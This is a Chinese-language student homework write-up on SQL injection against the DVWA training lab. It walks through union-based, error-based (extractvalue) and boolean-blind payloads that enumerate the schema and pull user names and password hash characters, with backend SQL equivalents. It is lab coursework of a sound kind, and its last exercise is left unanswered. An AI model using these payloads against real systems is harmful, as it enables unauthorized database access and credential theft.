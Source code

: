 ### 第七周作业

##### 1.通过前端验证的方法判断DVWA中的注入点

输入1‘报错，大概率存在SQL注入漏洞
![image-20241024094559491](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024094559491.png)

1 and 1=1，能查出来，存在注入
![image-20241024095019715](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024095019715.png)

1 and 1=2,可以执行且可以查出结果，有可能是网站对输入进行了特殊处理，故根据隐式转换，还是能查出结果，可以判断为数字型注入

![image-20241024100536773](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024100536773.png)

##### 2.在前端使用Union注入实现“dvwa数据库-user表-字段-first_name数据”的注入过程

先判断列数,输入2还可以，输入3就报错了，可判断列数为2列
![image-20241024104624445](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024104624445.png)

![image-20241024104725218](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024104725218.png)

判断有无显示位：1' union all select 1,2#
![image-20241024105032423](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024105032423.png)

若页面显示位不足： -1' union all select 1,2#,使左边为空值，腾出位置
![image-20241024105349118](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024105349118.png)

查询数据库名和用户名：1' union all select database(),user()#,若显示位不够，调换查询参数位置
![image-20241024105735309](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024105735309.png)

(补充）解决页面显示位不足：查询结果合并位1行，1' union select 1,group_concat(user) from users#
![image-20241024110958392](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024110958392.png)

爆库名：1' union select schema_name,1 from information_schema.schemata#
![image-20241024122251943](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024122251943.png)

爆表名：1' union select table_name,1 from information_schema.tables where table_schema=database()#
![image-20241024121754036](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024121754036.png)

爆字段名：1' union select column_name,1 from information_schema.columns where table_schema='dvwa' and table_name='users
![image-20241024123303493](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024123303493.png)

拿到first_name：1' union all select first_name,1 from users#
![image-20241024124332930](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024124332930.png)

##### 3.在后端使用Union注入实现“dvwa数据库-user表-字段-first_name数据”的注入过程

先展示数据库名：show databases;

进入dvwa表后，show tables;

列出users表所有信息：select * from users; 

![image-20241024124801974](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024124801974.png)

##### 4.在前端使用报错注入实现“dvwa数据库-user表-字段”的注入过程

判断是否有报错注入，有语法错误回显，判断有报错注入：1' and extractvalue(1,0x7e)#
![image-20241025223313138](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241025223313138.png)

爆库名：1' and extractvalue(1,concat(0x7e,database()))#
![image-20241025223046312](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241025223046312.png)

爆表数：1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema='dvwa')));#
![image-20241025224639148](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241025224639148.png)

爆表名：1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='dvwa' limit 0,1)))#（第一张表）
![image-20241026125253537](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026125253537.png)
第二张表：1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='dvwa' limit 1,1)))#
![image-20241026125347959](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026125347959.png)

爆字段数:1' and extractvalue(1,concat(0x7e,(select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users' )))#
![image-20241026125924305](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026125924305.png)

用limit一个个爆字段名：1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 7,1 )))#，从0-7可以一个个爆出来

user_id，first_name，failed_login等

![image-20241026130055973](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026130055973.png)

查询密码位数：1' and extractvalue(1,concat(0x7e,(select length(password) from users where user_id='1' )))#
![image-20241026144120397](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026144120397.png)

查询密码最后一位数：1' and extractvalue(1,concat(0x7e,(select substr(password,32,1) from users where user_id='1' )))#
![image-20241026144410816](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026144410816.png)

##### 5.在后端使用报错注入实现“dvwa数据库-user表-字段”的注入过程

判断报错注入：select first_name,last_name from users where user_id='1' and extractvalue(1,0x7e);

爆库名：select first_name,last_name from users where user_id='1' and extractvalue(1,concat(0x7e,database()));

爆表数：select first_name,last_name from users where user_id='1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema='dvwa')));

爆表名：select first_name,last_name from users where user_id='1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='dvwa' limit 0,1)));
select first_name,last_name from users where user_id='1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='dvwa' limit 1,1)));

爆字段数：select first_name,last_name from users where user_id='1' and extractvalue(1,concat(0x7e,(select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')));

爆字段名（一个个爆出来）：select first_name,last_name from users where user_id='1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 0,1)));

![image-20241026150525005](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026150525005.png)
（1）在extractvalue函数中，为什么'~'写在参数1的位置不报错，而写在参数2的位置报错？

因为参数1处是文件名，文件名可以是~，而参数2是文件路径，文件路径不会含~
（2）报错注入中，为什么要突破单引号的限制，如何突破？

不突破限制就只会把整个语句当成字符串识别，不会执行查询语句，在1后加'，在末尾加#可以突破限制

（3)在报错注入过程中，为什么要进行报错，是哪种类型的报错？

报错是显示语句不符合语法的报错，通过回显的报错可以查询我们需要的信息

##### 6、使用布尔盲注在前端实现“库名-表名-列名”的注入过程

爆库名长度：1‘ and length(database())>5#
![image-20241026220958711](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026220958711.png)
1‘ and length(database())>3#
![image-20241026221050333](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026221050333.png)

1‘ and length(database())=4#
![image-20241026221118855](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026221118855.png)

爆库名：1' and ascii(substr(database(),1,1))>100#
![image-20241026223300525](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026223300525.png)

1' and ascii(substr(database(),1,1))=100#
![image-20241026223457675](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026223457675.png)

1' and ascii(substr(database(),2,1))=118#
![image-20241026223620413](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026223620413.png)

同理一个个二分法缩小范围，最终得出数据库名为dvwa

爆表数：1' and (select(select count(table_name) from information_schema.tables where table_schema='dvwa')>1)#
![image-20241026225155278](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026225155278.png)
1' and (select(select count(table_name) from information_schema.tables where table_schema='dvwa')>2)#
![image-20241026225226065](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026225226065.png)

1' and (select(select count(table_name) from information_schema.tables where table_schema='dvwa')=2)#
![image-20241026225251352](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026225251352.png)

##### 7、使用布尔盲注在后端实现“库名-表名-列名”的注入过程，写清楚注入步骤。

